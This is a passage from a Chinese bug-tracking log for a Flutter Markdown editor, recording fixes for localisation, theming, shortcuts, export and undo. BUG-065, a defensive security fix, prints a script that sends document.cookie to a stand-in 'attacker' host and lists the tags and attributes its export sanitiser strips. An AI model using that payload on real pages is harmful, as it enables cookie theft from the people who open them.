### 现象

一个支持 12 种语言的应用里，mermaid 相关的三句话是写死的英文：

| 位置 | 原文 |
|---|---|
| 解析错误框标题 | `Mermaid Parse Error` |
| 图片导出成功 | `Saved to $savePath` |
| 图片导出失败 | `Save failed: $e` |

同时那个错误框用的是固定的 `Colors.red.shade50` 底色配 `red.shade700/900` 文字，
**八个主题一个样**。在 Dark Graphite、Dieci OLED、Midnight 这几个深色主题下，
文档中间会突然出现一块亮色面板。

### 修复方案

三句话补成 l10n 键（`mermaidParseError`、`imageSavedTo`、`imageSaveFailed`），
12 种语言全部补齐。错误框改用 `Theme.of(context).colorScheme` 的
`errorContainer` / `onErrorContainer`，跟着主题走。标题加 `Flexible` 包裹 ——
换成德语、俄语之后那行明显更长，原来会溢出。

### 涉及文件

- `code/lib/ui/widgets/mermaid_renderer.dart`
- `code/lib/core/i18n/l10n/app_*.arb` —— 12 个文件各新增 3 个键

---

## BUG-055 — 图表解析失败的详细文案，12 种语言下都是英文

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

BUG-054 把错误框的**标题**翻译了，但框里那句真正说明问题的话仍然是英文。中文用户
看到的是：

> **Mermaid 解析错误**
> Could not parse this flowchart. The header is recognised, so check the syntax below it.

### 根因

这句话由 `MermaidParser.describeParseFailure` 生成，而这个方法在 `lib/ui/editor/mermaid/`
里面 —— 那个目录**刻意对外部零依赖**（只 import 自身与 `package:flutter`，见 FEAT-014），
所以它够不着应用的 l10n，只能返回英文。

### 修复方案

让解析器**报告原因，不负责措辞**：

```dart
enum MermaidFailureKind { empty, unknownType, headerOnly, unparsedBody }

class MermaidFailure {
  const MermaidFailure(this.kind, this.detail);
  final MermaidFailureKind kind;
  final String detail;   // 不认识的类型 → 用户写的那一行；其余 → 图表种类名
}

MermaidFailure describeFailure(String source);
```

应用层的 `errorBuilder` 拿 kind 去查翻译。`describeParseFailure` 保留，但改成建立在
`describeFailure` 之上 —— 两边不再各判断一次，也就不会走岔。

新增 6 个 l10n 键（`mermaidErrorEmpty`、`mermaidErrorUnknownType`、
`mermaidErrorHeaderOnly`、`mermaidErrorBadBody`、`mermaidSupportedTypes`、
`mermaidCaptureFailed`），12 种语言补齐。**图表类型名保持英文不翻译** —— 那是用户
要照着敲的关键字。

顺带补上 BUG-054 漏掉的两处：`'Failed to capture diagram'` 和另存为对话框标题
`'Save Diagram As'`（后者直接复用已有的 `mermaidSaveAs`）。**同一个文件里 5 处硬编码，
上一轮只修了 3 处。**

### 涉及文件

- `code/lib/ui/editor/mermaid/parser/mermaid_parser.dart`
- `code/lib/ui/widgets/mermaid_renderer.dart`
- `code/lib/core/i18n/l10n/app_*.arb` —— 12 个文件各新增 6 个键
- `code/test/ui/editor/mermaid/mermaid_parser_test.dart` —— 新增 2 条

---

## BUG-056 — 同一个错误框有三份实现

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

图表解析失败时显示的那个红框，代码里有**三份几乎一样的实现**：

| 位置 | 用在哪 |
|---|---|
| `mermaid_renderer.dart` 的 `errorBuilder` | 编辑器预览里 |
| `mermaid_diagram.dart` 的 `_MermaidDiagramState._buildErrorWidget` | 没传 errorBuilder 时的兜底，**导出 PDF/Word 时截的就是它** |
| `mermaid_diagram.dart` 的 `InteractiveMermaidDiagram._buildErrorWidget` | 交互式图表 |

三份都用固定的 `Colors.red.shade50` 底色配 `red.shade700/900` 文字，在八个主题下一个样，
深色主题里就是文档中间一块亮色面板。

### 是怎么发现的

改第二份时 `dart analyze` 报了两条错 —— 因为改调用点的 `sed` 把第三份的调用点也换了，
参数对不上。**是编译器替我找出了第三份。**如果只改第一份、不动调用点，这三份会一直
分头存在下去。

### 修复方案

不是把第三份也改一遍，而是合成一份：抽出 `_MermaidErrorBox` 共享组件，配色全部走
`Theme.of(context).colorScheme` 的 `errorContainer` / `onErrorContainer` /
`surfaceContainerHighest`，源码块用可选参数（交互式那份原本就不显示源码）。标题加
`Flexible`，德语俄语那行明显更长。

措辞仍然是英文并且**故意保留** —— 这份在 mermaid 包内部，翻译它就要让那个目录依赖
应用，那个零依赖性质是它能被抽成独立包的全部前提（FEAT-014）。应用侧的 `errorBuilder`
已经覆盖了用户实际会看到的每一处。

### 这是本轮第七次撞上同一个模式

前六次：BUG-040 / 041 / 042 / 043 / 044 / 049。这次多了一个新变种：**三份而不是两份**，
而且是我自己上一轮刚修过一份、以为修完了。

### 涉及文件

- `code/lib/ui/editor/mermaid/widgets/mermaid_diagram.dart`

---

## BUG-057 — 629 行从未被调用过的死代码

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已清理

### 这次是怎么找的

前面连着七次撞上「一个东西多份实现，其中几份没跟上」（BUG-040/041/042/043/044/049/056），
而 BUG-056 的第三份还是**编译器替我找出来的** —— 说明靠读代码判断「改完了」不可靠。
所以这轮不再靠直觉，直接对全仓库做机械检测：把每个方法体去掉注释、字符串字面量和数字，
求哈希，找碰撞。

结果 5 组：

| 规模 | 位置 |
|---|---|
| **164 行 × 2** | `mermaid_diagram.dart` 的两个 `_getPainter()` |
| 24 行 × 2 | class / ER 两个画笔的 `_drawDashedLine()` |
| 12 行 × 2 | `mermaid_diagram.dart` 的两个 `_handleTap()` |
| 12 行 × 2 | class / ER 两个画笔的 `_rectEdgePoint()` |
| 8 行 × 2 | `mermaid_diagram.dart` 的两个 `_getLayoutEngine()` |

**注意归一化会掩盖差异**（字符串和数字都被抹掉了），所以逐一做了精确 diff：五组全部
**逐字节相同**，目前没有一处已经走岔 —— 但这正是 BUG-056 出事前一天的样子。

### 根因

`mermaid_diagram.dart` 里的三组重复，全部来自 `InteractiveMermaidDiagram` ——
它是 `MermaidDiagram` 的整体拷贝，只在外面多套了一个 `InteractiveViewer`。

而这个类**全仓库零引用**：`lib/`、`test/`、`docs/` 都搜不到调用点，
`git log -S 'InteractiveMermaidDiagram('` 也证明**它从来没有过调用点**。
连同它的两个私有辅助类，一共 629 行，占这个文件的 45%。

应用里的缩放/平移由 `mermaid_renderer.dart` 的 `_MermaidFullscreenView` 提供，
和它无关。

### 处理

**删掉**，而不是去重。理由：给一个从未被调用过的类做重构，等于给一段没有验证途径的
代码增加改动风险。如果将来 mermaid 目录真的抽成独立包（FEAT-014）需要一个可缩放的
组件，那时应该写成**包着 `MermaidDiagram` 的 30 行外壳**，而不是再拷一份 —— 这条
写在这里，是为了那时候不会有人再从这份历史里把拷贝捡回去。

两个画笔的几何函数则抽成共享文件 `painter/box_edge_geometry.dart`
（`rectEdgePoint` / `drawDashedLine`）。

### 验证

- 删除与抽取后 `dart analyze --fatal-infos` 干净，`flutter test` 全量 710 条通过
- 画笔改动逐行核对过：两个文件的新增行**只有一句 import 和三处函数改名**，没有别的
- 重复检测复跑：5 组 → 0 组
- mermaid 目录的**零外部依赖**性质复核仍然成立（那是它能抽成独立包的前提）

### 涉及文件

- `code/lib/ui/editor/mermaid/widgets/mermaid_diagram.dart` —— 1382 行减到 753 行
- `code/lib/ui/editor/mermaid/painter/box_edge_geometry.dart` —— 新增
- `code/lib/ui/editor/mermaid/painter/{class_diagram,er_diagram}_painter.dart`

---

## BUG-058 — 深色主题下时序图的帧标题与分节标签几乎看不见

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

在 Dark Graphite、Dieci OLED、Midnight 等深色主题下，时序图里 `alt` / `loop` / `opt`
框的**标题**，以及 `[else]` 这类**分节标签**，颜色和背景几乎融在一起，看不清写的是什么。
浅色主题下正常。



### 是怎么找到的

这一轮做的是近似重复检测（相似度 80%~99% 的方法对），本意是找"一份改了另一份没跟上"。
其中一组是 `sequence_painter` 的 `_drawParticipant` 与 `_drawParticipantBottom`（96%），
两者差别只有 y 坐标 —— 没有 bug。但看它们的过程中注意到画笔里有**写死的文字颜色**
`Color(0xFF37474F)`。

于是换了个角度量：统计每个画笔里 `themeMode` 出现的次数 —— **20 个画笔，全部是 0 次**。
而 `MermaidStyle.dark()` 会把画布底色改成 `#1E1E1E`。

接着把所有写死的文字颜色逐个算了与深色底的 WCAG 对比度，得到 9 处，其中 7 处低于 3.0。

### 关键的一步：7 处里只有 2 处是真的

**低对比度不等于看不清 —— 要看文字底下垫的是什么。**逐处核对之后：

| 位置 | 颜色 | 对比度 | 底下垫着 | 判定 |
|---|---|---|---|---|
| kanban `#212121` | 卡片描述 | 1.04 | 不透明白卡片 `#FFFFFF` | 正常 |
| sequence `#3E2723` | 便笺文字 | 1.21 | 不透明淡黄 `#FFF5AD` | 正常 |
| journey `#37474F` | 分数标签 | 1.73 | 彩色圆点填充 | 正常 |
| sequence `#37474F` ×3 | 参与者名 / 帧角标 | 1.73 | 参与者色块 / `#ECEFF1` 角标底 | 正常 |
| **sequence `#455A64`** | **alt/loop 帧标题** | **2.30** | **只有 6.7% 透明度的黑色蒙层** | **看不清** |
| **sequence `#546E7A`** | **[else] 分节标签** | **3.09** | **什么都没有，直接画在背景上** | **偏低** |

如果不做这一步核对，这条会变成"20 个画笔全都不支持深色主题"的夸大报告。

### 修复方案

给 `MermaidStyle` 加一个**计算属性**（不是构造字段）：

```dart
int get onBackgroundTextColor =>
    themeMode == MermaidThemeMode.dark ? 0xFFB0BEC5 : 0xFF455A64;
```

用计算属性是有原因的：`MermaidStyle` 在每个调用点都是**逐字段列出来构造的**，加成
构造字段就意味着每处都要记得传，而漏掉的那一处正好会是继续看不清的那一处。

时序图那两处改用它。深色下 `#B0BEC5` 对 `#1E1E1E` 的对比度约 9.2。浅色下 `[else]`
标签从 `#546E7A` 变成略深的 `#455A64`，对比度只增不减。

### 测试

`test/ui/editor/mermaid/diagram_contrast_test.dart`，4 条。第一条先验**测量本身**
（黑对白必须是 21:1，同色必须是 1:1）—— 不然后面两条可能是在一个算错的公式上通过的。
最后一条把原来写死的那个颜色单独拎出来断言：它在浅色下 >4.5、在深色下 <3.0，
这正是整个发现本身。

### 未处理的部分

其余 18 个画笔仍然使用为浅色背景设计的固定调色板（白卡片、淡黄便笺、彩色圆点等）。
**这是刻意的**：mermaid 自己也是这么做的，图元自带不透明填充，深色主题下它们看起来是
深色文档上的浅色卡片，读得清楚。只有"直接画在背景上的文字"才需要跟着主题走，
本次改的就是这一类的全部两处。

### 涉及文件

- `code/lib/ui/editor/mermaid/models/style.dart`
- `code/lib/ui/editor/mermaid/painter/sequence_painter.dart`
- `code/test/ui/editor/mermaid/diagram_contrast_test.dart` —— 新增

---

## BUG-059 — 11 个快捷键写死在菜单里，设置页看不见也改不了

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

设置里的「快捷键」列表少了 11 项。用户看不到源码模式、预览模式、分屏、
显示/隐藏侧边栏、显示/隐藏标签栏、命令面板、专注模式、打字机模式、
放大、缩小、重置缩放这些功能到底绑在哪个键上，**也无法修改**。

更糟的是其中两个和列表里的键**撞车**：

| 写死的 | 表里的 | 冲突键 |
|---|---|---|
| 放大 | 标题升级 | **Ctrl+=** |
| 缩小 | 标题降级 | **Ctrl+-** |

两个动作抢同一个键，只有一个会响应，**而应用里没有任何地方能显示出这件事** ——
设置页只列出标题升降级，看起来一切正常。

### 根因

这 11 项在菜单上直接写了 `SingleActivator`，绕过了 `KeybindingService`：

```dart
MenuItemButton(
  shortcut: SingleActivator(
    LogicalKeyboardKey.digit1,
    control: !isMac, meta: isMac, alt: true,
  ),
  child: Text(l10n.viewSourceCode),
```

而 `AppMenuBar._shortcut` 的注释恰恰写着：

> 菜单显示的标签和实际触发的键现在来自同一处，所以重绑之后不会显示一套、执行另一套。

**这句话对走 `_shortcut()` 的 29 项成立，对这 11 项完全不成立。**

### 我上一轮的错误结论

上一轮我做过一次"内部键位冲突"检查，结论是"无冲突"。**那个结论是错的** —— 我只检查了
`defaultKeybindings` 这张表，而冲突的另一方根本不在表里。表不是全部事实。

### 修复方案

11 项全部纳入 `KeybindingService`，**键位原样保留**，只有撞车的两个动了：

```dart
// 从 Ctrl+= 和 Ctrl+- 挪开，那两个键标题升降级已经占着。上游用的办法是
// 干脆不给缩放默认键位，让标题保留 —— 写文档才是这个程序的本分，而缩放命令
// 在视图菜单里仍然点得到。
'zoomIn': 'Ctrl+Shift+=',
'zoomOut': 'Ctrl+Shift+-',
```

顺带把另外 13 个**上游有快捷键、本项目菜单里完全没有**的动作也补上（新建窗口、设置、
退出、导出 PDF、重新加载图片、全屏、清除格式、新建段落、删除段落、转为段落、松散列表、
Front Matter、HTML 块）。选键的原则是**只取上游那个键在本项目当前完全空闲的**：上游另有
19 个键会撞车（Ctrl+T 在上游是新建标签页、在这里是插入表格；Ctrl+Shift+S 在上游是另存为、
在这里是删除线），照搬会打断本项目现有用户的习惯，那是用户的决定而不是对齐练习。

键位表从 37 条增加到 59 条，菜单里写死的快捷键归零。

### 一个自我验证的信号

替换完成后 `dart analyze` 报了一条 `isMac` 变量未使用 —— **只有那些写死的
`SingleActivator` 用它**。这条告警本身就是"清干净了"的证明。

### 测试

`test/services/keybinding_wiring_test.dart`，4 条：
① 菜单里不允许再出现写死的 `SingleActivator`；② 表内任意两个动作不得抢同一个键；
③ 每条默认键位都要能解析成真实组合键（否则设置里就是一条按不动的项）；
④ 设置页必须能给出每个动作的名字。

**第 4 条当场抓出了一个已存在的 bug**（见 BUG-060）。

### 涉及文件

- `code/lib/services/keybinding_service.dart`
- `code/lib/ui/widgets/app_menu_bar.dart`
- `code/lib/ui/screens/settings_screen.dart`
- `code/test/services/keybinding_wiring_test.dart` —— 新增

---

## BUG-060 — 标题升级/降级在设置页显示成原始动作名

**发现日期**：2026-08-28 　**优先级**：P3 　**状态**：已修复

### 现象

设置的快捷键列表里，别的行都是中文名，只有两行显示英文标识符
`promoteHeading` 和 `demoteHeading`。

### 根因

`_translateKeybindingAction` 是一个 `switch`，兜底分支是 `_ => action` —— 返回原始动作名。
这两个动作加进键位表时，没有同时在这里加 `case`，而兜底让它看起来"还能用"，
所以一直没被发现。

### 是怎么发现的

不是看出来的，是 BUG-059 那条测试抓出来的：

```dart
for (final action in KeybindingService.defaultKeybindings.keys) {
  expect(settings, contains("'$action' =>"),
      reason: '$action 在设置里会显示成原始动作名');
}
```

写这条断言的本意是守住新加的 24 条，结果它先揪出了两条早就存在的。
**「有兜底所以不会崩」的地方，正是最容易长期带病的地方。**

### 涉及文件

- `code/lib/ui/screens/settings_screen.dart`

---

## BUG-061 — 38 个格式动作里有 17 个在命令面板里找不到

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

命令面板（`Ctrl+P`）里搜不到下划线、高亮、上标、下标、行内代码、行内公式、清除格式、
复制为 Markdown、复制为 HTML、全选、复制当前行、标题升级、标题降级、转为段落、
松散列表、新建段落、删除段落 —— **一共 17 个**。它们在菜单里都有，功能也都正常。

### 根因

面板的格式命令来自 `home_screen.dart` 里一张手写的映射表：

```dart
final formatLabels = {
  FormatAction.bold: l10n.formatBold,
  ...
};
for (final entry in formatLabels.entries) {
  registry.register(Command(id: 'format.${entry.key.name}', ...));
}
```

**`FormatAction` 枚举有 38 个值，这张表只列了 21 个。**没坏任何东西 —— 只是同一批东西的
第二份清单没跟上，而第二份清单就是会这样。

菜单和面板执行的是同一个 `applyFormat`（菜单里的 `fmt` 就是它的别名），所以这 17 个
动作缺的**只是这张表里的一行**。

### 是怎么找到的

顺着上一轮 BUG-059 的思路 ——「注册表不等于事实」—— 把命令面板也当成一份注册表来核对。
先查它和菜单是否落到同一实现（视图类走同一批 provider 方法、格式类走同一个 `applyFormat`，
**都没有走岔**），再查它**收录得全不全**，这才发现 21 对 38。

### 修复

17 个全部补进映射表，标签复用菜单已有的 l10n 键，不新增任何翻译。

### 测试

`test/ui/screens/command_palette_coverage_test.dart`，2 条，双向锁死：

- 每个 `FormatAction` 都必须出现在这张表里 —— 以后新增枚举值却忘了加，测试会挡住
- 表里不得出现枚举里没有的名字，且两边数量必须相等

### 涉及文件

- `code/lib/ui/screens/home_screen.dart`
- `code/test/ui/screens/command_palette_coverage_test.dart` —— 新增

---

## BUG-062 — 「最近文件」在 10 种语言里都是英文，而守这件事的测试形同虚设

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

文件菜单里的「最近文件」子菜单，在**除英文和中文之外的全部 10 种语言**下都显示英文
`Recent Files` / `No Recent Files`。

### 更值得记的部分：守卫早就有，但拦不住任何东西

`test/core/i18n/l10n_coverage_test.dart` 里本来就有一条
`no language leaves a string untranslated as the English text`。它一直是通过的。
看它怎么写的：

```dart
// Reported rather than asserted to zero: some words genuinely coincide
// across languages ("Markdown", "PDF"). The bar is that a language is
// not wholesale untranslated.
expect(
  identical.length,
  lessThan(keysOf('en').length ~/ 2),
  reason: '$lang looks largely untranslated: ...',
);
```

**门槛是「未翻译的键少于总数的一半」** —— 283 个键里漏翻 141 个才会报警。
两个漏翻的键，这条断言永远不会响。

注释里的顾虑是对的：有些词在多种语言里天然相同（德语的 `Editor`、法语的 `Image`、
意大利语的 `File`、西班牙语的 `General`）。**但正确的答案是把这些词列出来，
而不是设一个宽到没有意义的阈值。**

### 排查过程

对 12 个 ARB 做了三层核对：

1. **键集是否一致** —— 12 个文件各 283 键，完全一致，没问题
2. **值是否照抄英文** —— 逐语言列出与英文完全相同的条目
3. **逐条判断是不是真漏翻** —— 这一步不能省。初查列出 14 个键、跨 10 种语言，
   但其中绝大多数是假阳性：德语的 `Editor`/`Format`/`Text`/`Code`、法语的
   `Image`/`Format`/`Code`、意大利语的 `File`、西班牙语的 `General`、
   葡萄牙语的 `Link` —— 这些词本来就是那样。

**只有 `fileRecentFiles` / `fileNoRecentFiles` 是毫无疑义的漏翻** ——
没有哪种语言会把「最近文件」写成英文。

### 修复

1. 10 种语言补上翻译（日语「最近使用したファイル」、德语
   「Zuletzt verwendete Dateien」、俄语「Недавние файлы」等），
   并重新 `flutter gen-l10n` —— 只改 `.arb` 不重新生成等于没改，
   这个测试文件的注释里正记着这个教训。
2. **把那条 50% 阈值换成明确名单。**26 个天然相同的键逐个列出，
   其余任何一条与英文相同都会让测试失败：

```dart
expect(untranslated, isEmpty,
    reason: '$lang 里这些条目还是英文原文：${untranslated.join(', ')}');
```

名单必须手动编辑才能加长，这正是重点 —— **往名单里加是一个决定，而漏翻不是。**

### 涉及文件

- `code/lib/core/i18n/l10n/app_*.arb` —— 10 个文件各 2 个键
- `code/lib/core/i18n/l10n/app_localizations_*.dart` —— 重新生成
- `code/test/core/i18n/l10n_coverage_test.dart` —— 阈值换成名单

---

## BUG-063 — 程序已在运行时双击文件，窗口不会被唤到前台

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

MarkText Plus 已经开着（最小化，或者被别的窗口挡住）时：

- **双击一个 `.md` 文件** —— 文件确实打开进了标签页，但**窗口纹丝不动**。
  用户看到的是"点了没反应"。
- **再点一次桌面图标 / 开始菜单** —— **什么都不会发生**。

### 根因

第二实例的处理只做了"把文件读进标签页"，从来没有把窗口拿到前面：

```dart
void _handleSecondInstance(List<dynamic> newArgs) {
  final newFiles = _filterStartupFiles(newArgs);
  if (newFiles.isEmpty) return;          // ← 不带文件时直接返回，什么都不做
  _globalContainer?.read(tabProvider.notifier).openFilesFromSecondInstance(newFiles);
}
```

`windowManager.show()` / `focus()` 全项目只在 `main()` 里初次启动时调用过一次。

### 与上游的对照

上游在同一个位置**明确会把窗口拿到前面**，而且在"第二次启动不带任何文件"的情况下，
**这是它唯一做的事**：

```ts
// packages/desktop/src/main/app/index.ts
app.on('second-instance', (_event, argv, workingDirectory) => {
  ...
  _openFilesCache.push(...buf)
  if (_openFilesCache.length) {
    this._openFilesToOpen()
  } else {
    const activeWindow = _windowManager.getActiveWindow()
    if (activeWindow) {
      activeWindow.bringToFront()      // ← 不带文件时就只做这个
    }
  }
})
```

### 这可能就是用户说的「打开时重复出现打开方式的选择」

用户点名的第三个问题一直被理解成"那个对话框还在"，而对话框早已从代码里移除。
但从行为上看：双击文件 → 看起来没反应 → 再试一次 / Windows 再问一遍 ——
**用户感受到的"重复"，很可能来自这里，而不是来自那个已经删掉的对话框。**

### 修复方案

`openFilesFromSecondInstance` 改为返回"是否在本窗口打开"，因为用户可能把
「打开方式」设成了新窗口 —— 那种情况下**不应该**动当前窗口：

```dart
void _handleSecondInstance(List<dynamic> newArgs) async {
  final newFiles = _filterStartupFiles(newArgs);
  final notifier = _globalContainer?.read(tabProvider.notifier);
  if (newFiles.isNotEmpty && notifier != null) {
    final openedHere = await notifier.openFilesFromSecondInstance(newFiles);
    if (!openedHere) return;   // 按用户的偏好去了新窗口，这个窗口保持原样
  }
  await _bringWindowForward();
}
```

`_bringWindowForward` 先 `restore()`（最小化时不 restore，`show()` 不会让它回来），
再 `show()` + `focus()`，整段包在 try 里 —— 唤起窗口失败不该成为文件打不开的理由。

### 测试

`test/providers/second_instance_test.dart`，3 条。这个方法此前**完全没有测试覆盖**：
文件在本窗口打开并如实返回、已打开的文件被切到前面而不是重复打开、
其中一个路径读不了不影响其余的。

窗口调用本身属于平台层，测不了；测的是这个方法给平台层的那个答案 ——
**返回错了，调用方就会以为文件去了新窗口，于是不唤起本窗口。**

### 涉及文件

- `code/lib/main.dart`
- `code/lib/providers/tab_provider.dart`
- `code/test/providers/second_instance_test.dart` —— 新增

---

## BUG-064 — 引用式图片 `![alt][ref]` 渲染成链接

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

```markdown
![截图][shot]

[shot]: https://example.com/s.png
```

预览里显示的不是图片，而是一个文字为「截图」的**链接**，前面还多一个孤零零的 `!`。
导出到 HTML / PDF / Word 同样如此。

### 是怎么找到的

把**上游的测试用例当规格书**：`packages/muya/e2e/tests/` 下有 395 个测试，其中一批
文件名直接带 issue 编号（2177、3191、3560、3836、4100、4339、4644、4685）——
那都是上游踩过的真实 bug 的回归测试。我们重新实现了同样的功能，很可能踩同样的坑。

挑出与架构无关的语义类用例（`blocks/reference-link-image.spec.ts`、
`blocks/footnote-scenarios.spec.ts`），照着写了 10 个情形的探针：

| 情形 | 结果 |
|---|---|
| `[label][ref]` | ✓ |
| 标签大小写不一致 | ✓ |
| 定义缺失 → 保持字面 | ✓ |
| **`![alt][ref]`** | **✗ 变成链接** |
| **`![alt][REF]`** | **✗ 同上** |
| `[ref][]` 简写 | ✓ |
| `[ref]` 折叠引用 | ✗ 未实现（见下） |
| 定义在引用之前 | ✓ |
| 脚注（两种顺序） | ✓ |

### 根因

内联图片 `` 有自己的分支，注释里还写着当初为什么加：

> Without it `![alt [x]](img.png)` fell through to that branch, which matched
> from the `[` and turned an image into a link with a stray `!` in front.

**症状一模一样，而引用式图片从来没有过对应的分支。**修过一个，漏了它的兄弟。

### 修复方案

内联大正则是**手工编号**的（派发里直接写 `match.group(32)`），在中间插分支会让后面
所有编号平移。所以新分支**追加在整个正则的最末尾** —— 组号 37/38，前面一个都不动。

顺序上仍然正确：正则引擎取**最左匹配**，`![alt][img]` 的新分支从位置 0 的 `!` 开始，
比引用链接分支从位置 1 的 `[` 开始更靠左，所以即使排在后面也会赢。

### 未做：折叠引用 `[ref]`

CommonMark 里 `[ref]` 单独出现、且存在 `[ref]:` 定义时应解析成链接。**没有实现，
也没有在这次一并加**：它会让文档里任何 `[某某]` 只要碰巧有同名定义就变成链接，
影响面比引用式图片大得多，值得单独评估。记在这里以免被当成已支持。

### 测试

`code/test/services/reference_image_test.dart`，6 条。最后一条专门守「追加在末尾
不影响既有分支」：内联图片和内联链接必须原样工作 —— 改正则最容易在别处出事。

### 涉及文件

- `code/lib/services/markdown_parser.dart`
- `code/test/services/reference_image_test.dart` —— 新增

---

## BUG-065 — 导出 HTML 时原样输出文档里的脚本

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

文档里如果有一段原始 HTML：

```html
<script>fetch('https://attacker/'+document.cookie)</script>
```

导出成 HTML 之后，那段脚本**原样写进了导出文件**。用浏览器打开这个文件，脚本就会执行。

**关键在于编辑器里看不出来**：预览把 HTML 块当作等宽纯文本显示（`_buildHtmlBlock`
用的是 `Text(node.html)`），所以读者在编辑器里从头到尾都不会看到任何异常，
直到他把导出的文件用浏览器打开。

一份别人写的文档 —— 下载的 README、同事发来的笔记 —— 就足以构成这个场景。

### 根因

```dart
case NodeType.htmlBlock:
  final html = node as HtmlBlockNode;
  return html.html;      // ← 原样输出
```

### 是怎么找到的

延续上一轮的做法：**把上游的测试用例当规格书**。
`packages/muya/e2e/tests/export/markdown-to-html.spec.ts` 里有一条：

> `script injection: <script> tag is sanitised away and does not execute`

上游在同一条路径上做了清理，并且专门给它写了测试。

### 修复方案

新增 `ExportService.sanitiseHtmlForExport`，只去掉**会自己运行**的那部分：

- `<script>` / `<iframe>` / `<object>` / `<embed>` / `<applet>` 连同内容（闭合与否都处理 ——
  一个没闭合的 `<script src=...>` 留在那里，后面整篇文档都会变成脚本源码）
- `onclick` / `onerror` / `onload` 等所有 `on…` 事件属性（**保留元素本身**）
- `javascript:` / `vbscript:` 形式的 `href` / `src`

**其余原样保留**：`<details>`、`<kbd>`、``、`<table>`、`style` 属性…… 导出件本
就该长得像原文档，清理过头是另一种错。

### 明确的限制

**这是尽力而为，不是安全边界。**它用正则处理文本，而正则不是解析 HTML 的正确方式。
放在这里是因为「全部原样透传」更糟，而不是因为它能挡住有备而来的构造。
这一点写在函数的文档注释里，避免以后有人当成保证。

### 检查过、确认不受影响的地方

- **预览**：HTML 块显示为等宽纯文本，不执行，本来就没有风险
- **内联 HTML**：`InlineType` 里没有 `html` 这一项，内联 HTML 在解析阶段就被展开成
  其它 span 类型，所以原样透传的路径**只有 HTML 块这一处** —— 不存在「修了一半」的问题
- **PDF / Word 导出**：把 HTML 当文本画，不执行

### 测试

`code/test/services/html_export_sanitise_test.dart`，6 条。最后一条守的是反面：
六种常见的良性标记必须**逐字不变**地保留 —— 清理器最容易犯的错是删多了。

### 涉及文件

- `code/lib/services/export_service.dart`
- `code/test/services/html_export_sanitise_test.dart` —— 新增

---

## BUG-066 — 打完字立刻按 Ctrl+Z，撤销要么没反应、要么一次退两步

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

**撤销键在最常用的那一刻是坏的。**打完一段字、立刻按 Ctrl+Z（也就是绝大多数人按它的时机），
会出现两种结果之一：

- 文档里只记录过一个状态时 —— **什么都不会发生**，按键像是失灵
- 记录过多个状态时 —— **一次退两步**，把上一次编辑也一起吞掉

超过 300 毫秒再按就正常。

### 根因

撤销快照是在输入的 **300 毫秒防抖**之后才推入栈的，而 `undo()` 假设「当前文本已经在栈顶」：

```dart
final current = _controller!.text;
_redoStack.add(current);
_undoStack.removeLast();          // ← 弹掉的是「上一个状态」，不是当前状态
if (_undoStack.isNotEmpty) {
  _controller!.value = ...(_undoStack.last);   // 应用的是「上上个状态」
}
```

推演：栈 `["A", "AB"]`，用户刚打出 `"ABC"`（尚未入栈），按下撤销 ——
把 `"ABC"` 存进 redo，弹出 `"AB"`，应用 `"A"`。**用户只打了一个字符、按了一次撤销，
却退回了两步。**

栈里只有一项时：弹掉唯一那项后栈空了，`if (_undoStack.isNotEmpty)` 不成立，
**文本一个字都没改**，但 canUndo 已经变成 false。

**两种错法都是无声的** —— 没有报错，没有提示，只有一个行为不对的按键。

### 修复方案

撤销之前先确认栈顶就是当前文本，不是就先补上：

```dart
if (_undoStack.last != current) {
  _undoStack.add(current);
  ...
}
if (_undoStack.length < 2) { _updateUndoRedoState(); return; }
_redoStack.add(_undoStack.removeLast());
```

**补的时候是直接入栈，不走 `pushHistory`** —— 后者会清空 redo 栈，而那正是撤销唯一
不能做的事。

顺带把「栈上只剩当前状态」的情况处理干净：直接返回，不再动文本。

### 一个恰好正确的地方（查过，没动）

`undo()` 会改写控制器文本，从而触发 `_onTextChanged`，300 毫秒后调用 `pushHistory`
—— 而 `pushHistory` 会清空 redo 栈。redo 之所以没被这条路径毁掉，是因为
`pushHistory` 开头有一句 `if (stack.last == content) return;` **在清空 redo 之前
就返回了**。这一句是承重的，改动它会静默弄坏 redo。

### 测试

`code/test/providers/undo_debounce_test.dart`，6 条。用「直接改控制器文本而不触发防抖」
模拟「刚打完字、快照还没入栈」的那一刻。**对旧实现跑，6 条里有 3 条失败** —— 先确认了
测试抓得住这个 bug，才算数。

其中一条守的是最坏的后果：**那个还没入栈的编辑不能丢** —— 撤销之后再重做，必须能拿回来，
否则撤销就成了毁掉工作的方式。

### 一处当时未改、随后补上的地方

撤销之后光标被放到文档末尾，而不是回到编辑发生的位置。**已在 BUG-067 修复。**

### 涉及文件

- `code/lib/providers/editor_provider.dart`
- `code/test/providers/undo_debounce_test.dart` —— 新增

---

## BUG-067 — 撤销之后光标被丢到文档末尾

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

在一篇长文档中间改了点东西，按 Ctrl+Z —— 文字恢复了，但**视图和光标一起跳到文档最末尾**，
离刚才编辑的地方十万八千里。要接着改，得先滚回去重新找到位置。

连按几次撤销就是连着几次跳到文末。

### 根因

快照只记了文本：

```dart
final Map<String, List<String>> _undoStacks = {};
...
_controller!.value = TextEditingValue(
  text: previous,
  selection: TextSelection.collapsed(offset: previous.length),  // ← 一律放到末尾
);
```

`offset: previous.length` 就是「文档末尾」。redo 也是同样的写法。

### 为什么和 BUG-066 分开记

BUG-066 修的是**撤销退错了步数**，这条修的是**退对了但把人扔到别处**。
前者让撤销不可靠，后者让可靠的撤销用起来很累 —— 是两个独立的毛病，
只是恰好在同一段代码里。

### 修复方案

快照从 `String` 换成 `({String text, int caret})`，入栈时一并记下当时的光标位置，
撤销和重做都通过同一个 `_restore` 恢复。

有一处必须处理的边界：**旧快照的光标位置属于一份已经不存在的文档**。回退到一个更短的
